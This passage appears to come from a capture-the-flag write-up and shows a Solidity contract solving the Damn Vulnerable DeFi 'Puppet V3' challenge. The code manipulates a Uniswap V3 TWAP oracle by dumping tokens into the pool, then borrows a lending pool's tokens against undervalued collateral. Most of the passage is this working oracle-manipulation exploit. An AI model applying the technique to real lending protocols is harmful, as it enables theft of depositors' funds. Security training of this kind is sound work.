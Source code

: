 ```solidity
    PuppetV3Pool private _pool;

    address private _dvt;
    address payable private _weth;
    address private _recovery;

    constructor(IUniswapV3Pool uniswapv3pool, PuppetV3Pool pool, address dvt, address payable weth, address recovery) payable {
        _uniswapv3pool = uniswapv3pool;
        _pool = pool;
        _dvt = dvt;
        _weth = weth;
        _recovery = recovery;
    }   

    function exploit() public {
        IERC20(_dvt).approve(address(_uniswapv3pool), type(uint256).max);
        WETH(_weth).deposit{value: 1 ether}();

        // swap direction: DVT (token0) -> WETH (token1)
        int256 amountIn = int256(IERC20(_dvt).balanceOf(address(this)));
        _uniswapv3pool.swap(
            address(this),     // recipient
            true,              // zeroForOne: token0 -> token1
            amountIn,  // amountSpecified: positive (exactInput if input amount is known)
            TickMath.MIN_SQRT_RATIO + 1, // sqrtPriceLimitX96: no restriction
            abi.encode(amountIn)  // data
        );
    }

    function post_exploit() external {
        uint256 borrow_amount = IERC20(_dvt).balanceOf(address(_pool));
        (int24 arithmeticMeanTick,) = OracleLibrary.consult({pool: address(_uniswapv3pool), secondsAgo: TWAP_PERIOD});
        uint256 quote = OracleLibrary.getQuoteAtTick({
            tick: arithmeticMeanTick,
            baseAmount: uint128(LENDING_POOL_INITIAL_TOKEN_BALANCE),
            baseToken: address(_dvt),
            quoteToken: address(_weth)
        });

        IERC20(_weth).approve(address(_pool), quote * DEPOSIT_FACTOR + 1);
        _pool.borrow(borrow_amount);
        IERC20(_dvt).transfer(_recovery, LENDING_POOL_INITIAL_TOKEN_BALANCE);
    }

    function uniswapV3SwapCallback(
        int256 amount0Delta,
        int256 amount1Delta,
        bytes calldata
    ) external {
        require(msg.sender == address(_uniswapv3pool), "Not pool");
        console.log("amount0Delta:", amount0Delta);
        console.log("amount1Delta:", amount1Delta);
        if (amount0Delta > 0) {
            // We are paying token0 (DVT)
            IERC20(_dvt).transfer(msg.sender, uint256(amount0Delta));
        }
        // No need to do anything with amount1Delta (WETH), that's what we receive.
    }
}
```
#### Learning by doing